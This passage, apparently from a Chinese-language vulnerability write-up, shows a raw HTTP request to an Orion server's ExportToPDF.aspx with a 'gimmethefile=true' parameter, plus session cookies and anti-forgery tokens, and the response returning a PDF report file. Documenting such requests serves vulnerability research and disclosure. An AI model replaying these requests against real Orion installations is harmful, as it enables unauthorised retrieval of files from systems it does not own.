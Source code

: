 ```
Content-Length: 53 
[...Truncated...]
```

也可以通过如下请求来读取PDF文件：

```
POST /orion/ExportToPDF.aspx?ExportID=55475&amp;gimmethefile=true HTTP/1.1 
Host: 172.16.11.168:8787 
User-Agent: Mozilla/5.0 
Accept-Encoding: gzip, deflate 
Accept: */* 
Connection: keep-alive 
Origin: http://172.16.11.168:8787 
X-Requested-With: XMLHttpRequest 
Referer: http://172.16.11.168:8787/Orion/SummaryView.aspx?ViewID=1 
Content-Type: application/x-www-form-urlencoded 
Cookie: .ASPXAUTH=0660567401DF21BAAC590375C511332186FE319751464EE2932BBBCECF1EECFDEB7AA7233D83572D3B253C5ADE83A083BD5CF9E0B7699DFEDB363A1442CCF2EBE56CA101813AEF9FF9A1579E73A430AC3244F36FD16490759B5B68A4E8A3F5A81E11FC7C5089CDD107A332701E673486A9683E74BB72A823C438FB681E3821F71F74C58A4D2E10146E19B04D5D491E3799E0973FBF1A8ED1723E97FE52E40D29D926C3A0B88074EE68B1ECE4391CD320; ASP.NET_SessionId=4q4kij1u0b3p3w5fcztorv5e; XSRF-TOKEN=6/SttzXoY2rJFY+74my5pSS055DftLCVbuOBlNKBxEU=; __AntiXsrfToken=e2de2272ca1e4cb7854602e9a0ca8d03 
Content-Length: 53 

__AntiXsrfTokenInput=e2de2272ca1e4cb7854602e9a0ca8d03 

HTTP/1.1 200 OK 
Cache-Control: private 
Transfer-Encoding: chunked 
Content-Type: binary/octet-stream 
Content-Disposition: attachment; filename="OrionReport.PDF"; size=32215 
X-Same-Domain: 1 
X-Content-Type-Options: nosniff 
X-Frame-Options: SAMEORIGIN 
X-XSS-Protection: 1; mode=block 
Date: Wed, 07 Oct 2020 18:24:56 GMT 

7dd7 
%PDF-1.4 
%.... 
1 0 obj 
&lt;&lt; /Creator (EO.Pdf) 
   /Producer (EO.Pdf 19.2.11.0) 
   /CreationDate (D:20201007182359+00'00') 
   /ModDate (D:20201007182359+00'00') 
&gt;&gt; 
endobj 
[...Truncated...]
```


